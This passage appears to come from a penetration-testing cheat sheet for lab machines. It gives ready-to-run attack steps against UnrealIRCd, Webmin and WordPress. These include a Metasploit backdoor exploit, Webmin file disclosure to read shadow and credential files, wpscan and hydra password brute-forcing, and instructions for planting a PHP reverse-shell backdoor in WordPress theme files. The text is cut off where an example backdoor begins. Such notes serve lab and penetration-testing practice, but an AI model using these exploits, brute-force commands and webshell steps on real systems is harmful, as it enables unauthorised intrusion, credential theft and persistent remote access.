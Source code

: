   
---
<a name="enumerate_app_unrealirc"></a>
#### enumerate_app_unrealirc [⇡](#enumerate)  
```shell
msfconsole
  use exploit/unix/irc/unreal_ircd_3281_backdoor
  set rhost <targetip>
  set rport <targetport>
  exploit

```
  
[+] https://snowscan.io/htb-writeup-irked/  
  
---
<a name="enumerate_app_webmin"></a>
#### enumerate_app_webmin [⇡](#enumerate)  
```shell
view any file - even root owned, run perl cgi scripts
msf: auxiliary/admin/webmin/file_disclosure
can view /etc/ldap.secret file that might give credentials
can be used to run a perl cgi script (uploaded via some other means) to gain root reverse shell
download shadow file and try cracking hashes
download ssh authorized_keys for users (names obtained from shadow file), use edb:5720 and "ssh -i"

```
  
  
---
<a name="enumerate_app_wordpress"></a>
#### enumerate_app_wordpress [⇡](#enumerate)  
```shell
default creds: admin/password
look for phpmyadmin, plugins directories
look for wp-config.php file (via an open smb/ftp share) => contains db creds, useful for phpmyadmin and ssh
enumerate authors:
  http://192.168.92.167:8080/?author=1 => will show username as "AUTHOR ARCHIVES: <username>"
  http://192.168.92.167:8080/?author=2 => will not show username if author id is invalid
  wpuser http://192.168.92.134/ usernames
wpscan --url http://192.168.92.134:80/ -e vp,vt,tt,cb,dbe,u,m
bruteforce wordpress login:
  wpscan --url http://192.168.92.134 -P fsocity.dic.trimmed -U elliot
  wpscan --url http://192.168.92.169/backup_wordpress/ -P /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt -U admin,john
  wpscan --disable-tls-checks --url https://192.168.92.165:12380/blogblog/ -P $HOME/toolbox/vulnhub/mrrobot1/pass.list -U elliot
  hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.92.169 http-post-form "/backup_wordpress/wp-login.php:log=admin&pwd=^PASS^:ERROR"
wordpress to shell:
  #1 add webshell via /wp-admin/theme-editor.php?file=404.php
    a. "Appearance" -> "Editor"
    b. select "404 Template" (404.php)
    c. add php backdoor before the `<?php get_footer(); ?>` line and click "Update File"
    d. example php backdoor: /usr/share/webshells/php/php-reverse-shell.php
    e. run local netcat listener
    f. visit a non-existing page: http://192.168.92.191/wordpress/?p=<attackerport>99
  #2 add webshell @ /wp-admin/
    a. "Appearance" -> "Editor"
    b. select "Theme Footer" (footer.php)
    c. add php backdoor at the end of file and click "Update File"
    d. example php backdoor:
      <!-- Inpired by DK's Simple PHP backdoor (http://michaeldaw.org) -->
      <?php
```